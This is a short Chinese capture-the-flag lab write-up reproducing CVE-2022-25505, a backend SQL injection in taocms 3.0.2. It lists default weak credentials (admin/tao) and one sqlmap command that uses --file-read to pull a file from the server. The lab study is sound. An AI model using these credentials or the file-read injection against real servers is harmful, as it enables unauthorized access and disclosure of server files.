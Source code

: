 ```yaml
---
title: CVE-2022-25505【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-25505)

## 2. 漏洞分析

[taocms3.0.2 SQL injection exists in the background · Issue #27 · taogogo/taocms · GitHub](https://github.com/taogogo/taocms/issues/27)

## 3. 漏洞复现

弱口令登录：admin/tao

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061659168.jpg)

提交并用 burpsuite 抓包

![2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061659591.jpg)

![3.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061701006.jpg)

sqlmap post 注入，经测试，常规注入没找到flag表，直接尝试从根目录读取 flag

![4.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061713960.jpg)

```bash
	python sqlmap.py -r post.txt --file-read "/flag" --dbms mysql --batch
```

- file-read: SQLmap --file-read从服务器中读取文件

- 当用户权限足够大并且具有特定的函数，即可读取服务器中的文件，可以是文本，也可以是二进制文件

![5.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061713533.jpg)

